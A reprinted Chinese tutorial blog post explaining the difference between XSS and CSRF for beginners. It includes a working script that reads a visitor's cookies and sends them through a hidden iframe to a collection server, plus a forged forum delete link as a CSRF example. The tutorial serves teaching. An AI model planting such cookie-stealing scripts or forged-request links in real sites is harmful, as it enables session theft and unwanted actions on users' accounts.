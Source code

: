 ```yaml
---
title: '用大白话谈谈XSS与CSRF' 
date: 2019-02-02 2:30:11
hidden: true
slug: e9jrpjhbwdk
categories: [reprint]
---
```


{{< raw >}}

                    
<p>这两个关键词也是老生常谈了，但是还总是容易让人忘记与搞混~。<br>XSS与CSRF这两个关键词时常被拉出来一起比较（<strong>尤其是面试</strong>），我在这里也在写一篇扫盲文，也帮自己整理一下知识脉络。</p>
<p>这篇文章会用尽量“人话”的语言解释这二个关键词，让同学们对跨域，安全有更深一层次的了解。</p>
<p>国际惯例，先上一下维基百科：</p>
<p>XSS：跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。<strong>这类攻击通常包含了HTML以及用户端脚本语言</strong>。<br>I<br>CSRF:跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上<strong>执行非本意的操作的攻击方法</strong>。</p>
<hr>
<p>维基的解释依旧高深莫测啊，我用 “人话”给大家解释一下吧。</p>
<p>XSS： 通过客户端脚本语言（最常见如：JavaScript）<br>在一个论坛发帖中发布一段恶意的JavaScript代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做XSS！</p>
<p>CSRF：又称XSRF，冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）。</p>
<blockquote><p>很多同学会搞不明白XSS与CSRF的区别，虽然这两个关键词时常抱团出现，但他们两个是不同维度的东西（或者说他们的目的是不一样的）。<br> XSS更偏向于方法论，CSRF更偏向于一种形式，只要是伪造用户发起的请求，都可成为CSRF攻击。</p></blockquote>
<p>通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝不止一种，还可以直接通过命令行模式（命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）。<br> XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。</p>
<p>简单来说，条条大路（XSS路，命令行路）通罗马（CSRF马，XSRF马）。</p>
<p>前面讲了那么多理论介绍，那么我们来看一看实际代码吧。</p>
<p><strong> 【 Talk is cheap，Show me the code 】 </strong></p>
<p>场景：我在一条帖子里面写下了如下代码，发了出去，然后陆陆续续有很多可爱（wu / zhi） 的用户访问到这个帖子，然后用户接下来的所有操作都由我这串代码掌控了（各种姿势混着玩~）</p>
<p>如下：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="while(true){
    alert('你关不掉我');
}

" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xquery"><code><span class="hljs-keyword">while</span>(<span class="hljs-literal">true</span>){
    alert(<span class="hljs-string">'你关不掉我'</span>);
}

</code></pre>
<p>这个就是最原始的脚本注入了。<br>用户进来就麻烦了，一直弹窗一直弹窗。</p>
<p>那么XSS（跨站脚本）就是照瓢画葫了，用JavaScript写一个请求跨站的脚本就是XSS了，如下：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="
// 用 <script type=&quot;text/javascript&quot;></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = &quot;http://192.168.123.123/myxss/&quot;;
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement(&quot;iframe&quot;);
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = &quot;none&quot;;
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs typescript"><code>
<span class="hljs-comment">// 用 &lt;script type="text/javascript"&gt;&lt;/script&gt; 包起来放在评论中</span>
(<span class="hljs-function"><span class="hljs-keyword">function</span>(<span class="hljs-params"><span class="hljs-built_in">window</span>, <span class="hljs-built_in">document</span></span>) </span>{
    <span class="hljs-comment">// 构造泄露信息用的 URL</span>
    <span class="hljs-keyword">var</span> cookies = <span class="hljs-built_in">document</span>.cookie;
    <span class="hljs-keyword">var</span> xssURIBase = <span class="hljs-string">"http://192.168.123.123/myxss/"</span>;
    <span class="hljs-keyword">var</span> xssURI = xssURIBase + <span class="hljs-built_in">window</span>.encodeURI(cookies);
    <span class="hljs-comment">// 建立隐藏 iframe 用于通讯</span>
    <span class="hljs-keyword">var</span> hideFrame = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">"iframe"</span>);
    hideFrame.height = <span class="hljs-number">0</span>;
    hideFrame.width = <span class="hljs-number">0</span>;
    hideFrame.style.display = <span class="hljs-string">"none"</span>;
    hideFrame.src = xssURI;
    <span class="hljs-comment">// 开工</span>
    <span class="hljs-built_in">document</span>.body.appendChild(hideFrame);
})(<span class="hljs-built_in">window</span>, <span class="hljs-built_in">document</span>);
</code></pre>
<p>此段代码携带着cookie信息传输给了  <strong> <a href="http://192.168.123.123/myxss//strong" rel="nofollow noreferrer" target="_blank">http://192.168.123.123/myxss/...</a>  这段服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php 中写一些可怕的代码，如把用户信息存进自己的数据库）。</strong></p>
<p><em>有没感觉到背后一寒</em></p>
<p>看到这里感觉到危险了吧（想想初学程序时我们的站点完全没有这个意识，活生生的是在裸奔），=<br>既然此段脚本注入能携带着用户信息到收集服务器，那么再研究研究，他自然能发邮件？发帖？一系列业务逻辑？  ~~当然可以！。</p>
<p>这里tips一下：上面的代码仅仅是XSS，并没有发生CSRF，因为192.168.123.123/myxss/index.php 仅仅是把用户信息存起来了而已，他并没有“伪造”用户发起一些请求，所以他只算是XSS攻击而不算是CSRF攻击，如果192.168.123.123/myxss/index.php 写的代码是 将当前用户的昵称改为“我是大笨猪”，那么就算是CSRF攻击了，因为这段代码伪造用户发出了请求（但是用户却不自知）。</p>
<p>那么下面我介绍一下最最简单的CSRF攻击（没有用到XSS的哦）：<br>一个论坛，经过我的多次抓包分析（着重分析请求返回头，请求返回体）了解到这个论坛的删帖操作是触发 csdnblog.com/bbs/delete_article.php?id=“X" 那么，我只需要在论坛中发一帖，包含一链接：www.csdnblog.com/bbs/delete_article.php?id=“X" ，只要有用户点击了这个链接，那么ID为X的这一篇文章就被删掉了，而且是用户完全不知情的情况（敲黑板状：此处我可没有写XSS脚本哦，我纯粹是发一个url地址出来而已，既然删除操作可以伪造，那么只要我细细分析，其他操作（发帖，改名字，发私信，只要是这个论坛具有的功能）我都可以伪造咯！</p>
<p>XSS与CSRF讲完了，回头我会讲下如何防范XSS与CSRF。</p>
<p><strong>今天国庆日，6天后国足将在西安迎战叙利亚，此战胜负十分关键！祝好运！国足队员加油！</strong></p>
<p>参考文章：<br><a href="https://segmentfault.com/a/1190000004623125">https://segmentfault.com/a/11...</a> 《 总结 XSS 与 CSRF 两种跨站攻击 》<br><a href="http://www.lxway.com/482281211.htm" rel="nofollow noreferrer" target="_blank">http://www.lxway.com/48228121...</a> 《CSRF CORS》</p>
<p>学习/（“抄”） 了不少文章（主要是demo代码不想重复写了），侵删。</p>

                
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，

本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。

原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
用大白话谈谈XSS与CSRF

## 原文链接
[https://segmentfault.com/a/1190000007059639](https://segmentfault.com/a/1190000007059639)

